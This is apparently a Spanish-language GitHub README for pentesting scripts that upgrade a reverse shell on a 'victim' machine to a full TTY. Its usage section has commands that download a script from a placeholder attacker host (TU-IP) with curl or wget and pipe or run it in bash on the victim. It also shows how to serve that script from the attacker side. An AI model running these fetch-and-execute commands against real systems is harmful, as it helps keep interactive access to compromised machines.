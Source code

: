 # 🧪 AutoTTY + Install Script

Este repositorio contiene dos scripts Bash diseñados para mejorar tu experiencia al obtener reverse shells en máquinas objetivo. El objetivo es facilitar el tratamiento de TTY automáticamente y asegurar que todas las herramientas necesarias estén instaladas en tu sistema atacante.

---

## 📁 Archivos

| Archivo        | Descripción                                                                 |
|----------------|-----------------------------------------------------------------------------|
| `autotty.sh`   | Aplica automáticamente tratamiento TTY. Si ya se aplicó uno, lo reinicia.  |
| `install.sh`   | Instala dependencias necesarias como `rlwrap`, `xterm`, `tmux`, entre otras.|

---

## ⚙️ Instalación de dependencias

Ejecuta este script en tu máquina atacante antes de iniciar una sesión:

```bash
chmod +x install.sh
./install.sh

🔁 Uso del tratamiento TTY
Una vez que tengas acceso a una reverse shell en la máquina víctima, ejecuta:

bash
Copy code
bash <(curl -s http://TU-IP:PUERTO/autotty.sh)
O si usas wget:

bash
Copy code
wget http://TU-IP/autotty.sh && bash autotty.sh
El script detecta si ya existe un tratamiento TTY activo (usando un marcador en /tmp/tty_active). Si lo hay, lo borra y lo reinicia.

✅ Requisitos
Acceso a una reverse shell (por ejemplo, vía pwnear, nc, etc.)

Acceso a bash y al comando script en la máquina víctima

Conexión a internet (para descargar el script remotamente)

💡 Tip
Puedes alojar estos scripts en un servidor web simple para descargarlos desde una shell víctima. Ejemplo:

bash
Copy code
# En tu máquina atacante
python3 -m http.server 80
👤 Autor
Russell 09

Herramientas creadas para flujos de pentesting prácticos y eficientes.

